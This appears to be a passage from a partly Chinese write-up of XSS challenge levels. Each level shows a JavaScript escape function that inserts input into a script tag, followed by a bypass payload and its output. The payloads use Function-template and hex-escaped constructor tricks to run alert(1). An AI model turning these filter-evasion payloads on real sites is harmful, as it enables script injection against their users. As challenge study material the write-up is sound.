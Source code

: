 

<a name="a018"/></a>
### Well (79)
```javascript
function escape(s) {
  http://www.avlidienbrunn.se/xsschallenge/

  s = s.replace(/[\r\n\u2028\u2029\\;,()\[\]<]/g, '');
  return "<script> var email = '" + s + "'; <\/script>";
}
```
绕过绕过，我给出的最短payload
```html
'|new Function`a${'alert'+String.fromCharCode`40`+1+String.fromCharCode`41`}`|'
```
Output
```html
<script> var email = ''|new Function`a${'alert'+String.fromCharCode`40`+1+String.fromCharCode`41`}`|''; </script>
```


<a name="a019"/></a>
### No


----------


<a name="a020"/></a>
### K'Z'K (60)
```javascript
// submitted by Stephen Leppik
function escape(s) {
    // remove vowels in honor of K'Z'K the Destroyer
    s = s.replace(/[aeiouy]/gi, '');
    return '<script>console.log("' + s + '");</script>';
}
```
采用匿名函数调用的方法，构造```[]["pop"]["constructor"]('alert(1)')()```的十六进制绕过，得到payload
```html
"|[]["p\x6fp"]["c\x6fnstr\x75ct\x6fr"]('\x61l\x65rt(1)')()|"
```
Output
```html
<script>console.log(""|[]["p\x6fp"]["c\x6fnstr\x75ct\x6fr"]('\x61l\x65rt(1)')()|"");</script>
```

<a name="a021"/></a>
### K'Z'K (84)
```javascript
// submitted by Stephen Leppik
function escape(s) {
    // remove vowels and escape sequences in honor of K'Z'K 
    // y is only sometimes a vowel, so it's only removed as a literal
    s = s.replace(/[aeiouy]|\\((x|u00)([46][159f]|[57]5)|1([04][15]|[15][17]|[26]5))/gi, '')
    // remove certain characters that can be used to get vowels
    s = s.replace(/[{}!=<>]/g, '');
    return '<script>console.log("' + s + '");</script>';
}
```
payload
```html
"|[]["p\\x6fx6fp"]["c\\x6fx6fnstr\\x75x75ct\\x6fx6fr"]('\\x61x61l\\x65x65rt(1)')()|"
```
Output
```html
```
